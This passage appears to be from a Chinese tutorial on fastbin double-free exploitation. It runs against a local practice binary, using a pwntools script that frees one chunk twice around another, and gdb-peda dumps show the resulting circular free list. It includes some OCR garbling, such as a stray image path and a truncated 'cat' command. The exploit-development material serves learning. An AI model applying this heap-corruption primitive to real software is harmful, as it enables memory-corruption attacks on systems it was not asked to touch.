 ```bash
> 1 3
100
morty
> 2 3
> 2 3
*** Error in `./fastbin': double free or corruption (fasttop): 0x0000000001a18010 ***
已放弃

```
或者input放在文件中
```bash
cat input.txt 
1 0 s
1 1 q
2 1
2 1
```
管道输出
```
at input.txt | ./fastbin
1,malloc+ gets
2.free
3.puts
> > > > *** Error in `./fastbin': double free or corruption (fasttop): 0x0000000000601030 ***
已放弃
```
python方式写入
```python
```
from pwn import *

r = remote('127.0.0.1',4000)

def cmd(x):
	r.recvuntil('>')
	r.send(x+'\n')
	
def malloc(i,s):
	cmd('1 %d %d\n%s' % (i,len(s),s))
	
def free(i):
	cmd('2 %d' % i)
	
raw_input('#')
malloc(0,'p')
malloc(1,'q')
free(0)
free(1)
free(0)

r.interactive()
```
free三次之后查看fastbin
```
gdb-peda$ p/x main_arena.fastbinsY
$10 = {0x601000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
```
发现fastbin已经串起来了
```
gdb-peda$ x/4gx 0x601000
0x601000:	0x0000000000000000	0x0000000000000021
0x601010:	0x0000000000601020	0x0000000000000000
gdb-peda$ x/4gx 0x0000000000601020
0x601020:	0x0000000000000000	0x0000000000000021
0x601030:	0x0000000000601000	0x0000000000000000
gdb-peda$ x/4gx 0x0000000000601000
0x601000:	0x0000000000000000	0x0000000000000021
0x601010:	0x0000000000601020	0x0000000000000000